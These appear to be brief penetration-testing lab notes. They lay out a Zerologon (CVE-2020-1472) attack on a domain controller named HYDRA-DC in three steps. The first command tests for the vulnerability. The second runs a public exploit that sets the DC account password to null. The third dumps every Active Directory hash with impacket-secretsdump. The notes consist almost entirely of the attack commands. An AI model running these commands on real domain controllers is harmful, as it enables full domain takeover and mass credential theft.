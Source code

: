 
# Test if our target is vulnerable
https://github.com/SecuraBV/CVE-2020-1472
```bash
./zerologon_tester.py HYDRA-DC 192.168.196.128
```

-----------------------

# Set null password to domain admin with exploit
https://github.com/dirkjanm/CVE-2020-1472
```bash
python3 cve-2020-1472-exploit.py HYDRA-DC <dc-ip>
```

-----------------------

# Dump all AD the hashes
```bash
impacket-secretsdump -just-dc MARVEL/HYDRA-DC\$@192.168.196.128
```

-----------------------
